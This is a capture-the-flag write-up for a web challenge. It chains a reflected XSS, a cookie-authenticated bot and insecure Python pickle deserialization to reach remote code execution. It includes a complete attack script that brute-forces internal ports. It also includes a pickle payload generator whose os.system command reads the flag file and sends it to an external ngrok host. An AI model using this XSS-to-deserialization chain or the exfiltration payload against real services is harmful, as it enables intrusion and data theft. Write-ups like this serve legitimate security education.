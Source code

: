 ## Triple Whammy

(46 solves)

Fun web challenge with XSS and insecure python deserialization that sends a bot on a long journey.

After an initial read-through, it seems that there are three applications running for this challenge.
* server.py - An externally accessible Flask web-server
* admin_bot.js - A frontend to a bot that can be sent to different locations, imitating an authenticated user
* internal.py - Another Flask web-server, only accessible internally (by the bot) which is given a random port between 5700 and 6000


 a bot we have to send to some
location, which indicates some kind of XSS vulnerability. The bot has a cookie set with a secret, with which it is authorized to access certain parts of the web-server that we are not authorized to.

```js 
// Relevant part of the bot's visitUrl:
...
    try {
        const page = await browser.newPage()

        try {
            await page.setUserAgent('puppeteer');
            let cookies = [{
                name: 'secret',
                value: SECRET,
                domain: '127.0.0.1',
                httpOnly: true
            }]
            await page.setCookie(...cookies)
            await page.goto(url, { timeout: 5000, waitUntil: 'networkidle2' })
        } finally {
            await page.close()
        }
...
```

```python
# Relevant function that checks the cookie and only proceeds
# if the bot visits it

@app.route('/query', methods=['POST'])
def query():
    print("Got request /query")
    print(f"Request json: {request.json}")
    # get "secret" cookie
    cookie = request.cookies.get('secret')

    check if cookie exists
    if cookie == None:
        return {"error": "Unauthorized"}
    
    # check if cookie is valid
    if cookie != SECRET:
        return {"error": "Unauthorized"}
    
    # get URL
    try:
        url = request.json['url']
    except:
        return {"error": "No URL provided"}

    # check if URL exists
    if url == None:
        return {"error": "No URL provided"}
    
    # check if URL is valid
    try:
        url_parsed = urlparse(url)
        if url_parsed.scheme not in ['http', 'https'] or url_parsed.hostname != '127.0.0.1':
            return {"error": "Invalid URL"}
    except:
        return {"error": "Invalid URL"}
    
    # request URL
    try:
        requests.get(url)
    except:
        return {"error": "Invalid URL"}
    
    return {"success": "Requested"}
```

But it doesn't help us to send the bot to some random url, we want the flag, which is
stored as a text file at `./flag.txt`. This means that we need some form of RCE.
Looking at the code of `internal.py`, we can see that we probably need to leverage [insecure deserialization](https://starlox.medium.com/insecure-deserialization-attack-with-python-pickle-2fd23ac5ff8f), as it simply unpickles what we give it as a json object.

```python
# Insecure deserialization vector in internal.py

@app.route('/pickle', methods=['GET'])
def main():
    pickle_bytes = request.args.get('pickle')

    if pickle_bytes is None:
        return 'No pickle bytes'
    
    try:
        b = bytes.fromhex(pickle_bytes)
    except:
        return 'Invalid hex'
    
    try:
        data = pickle.loads(b)
    except:
        return 'Invalid pickle'

    return str(data)
```

We would like to send the bot to `internal.py/pickle` directly, yet the bot frontend only allows
to send it to `server.py`. So we need to take a detour over the `server.py/query`. However,
`server.py/query` needs to be `POST`ed, so we need to leverage an XSS vector that is found in the last piece of the puzzel, the `/`-route:

```python
# Reflected XSS

@app.route('/', methods=['GET'])
def main():
    name = request.args.get('name','')

    return 'Nope still no front end, front end is for noobs '+name
```

Here we can see a reflected XSS vector in the name parameter. So the final attack path is:

* Send the bot to `/?name=<reflected XSS payload>` which sends a
* `POST`-request to `/query` with a json-body object containing a `url`-field, that sends it to
* `internal.py/pickle?pickle=<some hex encoded payload>` that gets deserialized and gives us RCE.

To get past the port randomization, we just brute-force it. Here is the code for the final attack:

```python
import requests
from tqdm import tqdm
from concurrent.futures import ThreadPoolExecutor

url = "https://triple-whammy-admin.chal.cyberjousting.com/visit"

def send_request(port):
    payload = {
        "path": f'''?name=<script>data%3d{{"url"%3a"http%3a//127.0.0.1%3a{port}/pickle%3fpickle%3d800495c5000000000000008c05706f736978948c0673797374656d9493948caa707974686f6e202d632022696d706f72742072657175657374733b20696d706f7274206f733b2072657175657374732e676574285c2268747470733a2f2f383937352d323030332d63642d633730632d626166362d646330632d646364302d393532392d653863342e6e67726f6b2d667265652e6170702f5c22202b206f732e706f70656e285c22636174202f6374662f666c61672e7478745c22292e726561642829292e74657874229485945294}}%3b+fetch("/query",+{{"method"%3a+"POST",+"headers"%3a+{{"Content-Type"%3a+"application/json"}},+"body"%3a+JSON.stringify(data)}})%3b</script>'''
    }
    response = requests.post(url, data=payload)
    return response.status_code  

num_threads = 10
ports = reversed(range(5700, 6000))

with ThreadPoolExecutor(max_workers=num_threads) as executor:
    results = list(tqdm(executor.map(send_request, ports), total=300))

print(results)

```

The deserialization-payload simply runs a python command that will send a `GET`-request to our ngrok endpoint with the flag `cat`ted at the end.

```python
import pickle
import sys
import base64

command = 'python -c "import requests; import os; requests.get(\\"https://8975-2003-cd-c70c-baf6-dc0c-dcd0-9529-e8c4.ngrok-free.app/\\" + os.popen(\\"cat /ctf/flag.txt\\").read()).text"'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))


print(pickle.dumps(rce()).hex())
```